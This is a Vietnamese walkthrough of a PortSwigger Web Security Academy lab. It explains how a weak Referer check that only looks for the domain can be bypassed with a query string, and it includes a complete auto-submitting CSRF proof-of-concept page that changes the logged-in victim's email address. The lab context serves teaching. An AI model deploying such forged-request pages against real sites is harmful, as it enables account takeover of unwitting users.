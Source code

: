 ![image](https://github.com/user-attachments/assets/cc5f9f93-15e7-4669-89e0-59424a90b31c)

![image](https://github.com/user-attachments/assets/4511c2d9-365c-4457-8324-607aa893fcda)

![image](https://github.com/user-attachments/assets/26dd72bb-d4aa-4b6b-91cf-2ef82e3afcd3)

Bạn quan sát được sự khác biệt chứ.

Đó chính là nó sẽ check xem cùng domain hay không? nó chỉ quan tâm có cùng domain hay không thôi, và cơ chế check của nó thì tôi có thể đoán được rằng nó đang check từng kí tự từ index = 0 cho đến kí tự cuối của domain thì sẽ pass, nó sẽ không quan tâm đằng sau cái domain đó là cái gì.

Và đây sẽ là 1 lỗ hổng giúp ta bypass, tức là giờ ta sẽ tìm cách nối dài cái url này bằng cách query nó chẳng hạn `?`.

```
Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net
```

Vậy vẫn chưa đủ, tiến hành thêm `<meta name="referrer" content="unsafe-url">`.

Nhiều trình duyệt hiện nay sẽ tự động bỏ query string trong Referer vì lý do bảo mật. Để tránh điều này, thêm tiêu đề Referrer-Policy vào phần <head> của HTML để yêu cầu trình duyệt giữ nguyên URL đầy đủ

Tiến hành tạo 1 cái poc csrf cơ bản

```
<html>
  <head>
    <meta name="referrer" content="unsafe-url">
  </head>
  <body>
    <form action="https://0aca00ec0326dd8f8236fda100c2001b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="a112dmin&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      // Thêm query string chứa tên miền lab để bypass kiểm tra Referer
      history.pushState('', '', '/?0aca00ec0326dd8f8236fda100c2001b.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
![image](https://github.com/user-attachments/assets/7c773dc0-22e4-4e26-ad81-04112efb148b)

Vậy là đã thành công

## REFERENCES
[1]. https://www.trustedsec.com/blog/setting-the-referer-header-using-javascript

[2]. https://medium.com/@frank.leitner/writeup-csrf-where-token-is-tied-to-non-session-cookie-portswigger-academy-60fb8062363b

[3]. https://medium.com/@uchiha-rem01x/lab-csrf-with-broken-referer-validation-66970e73e484
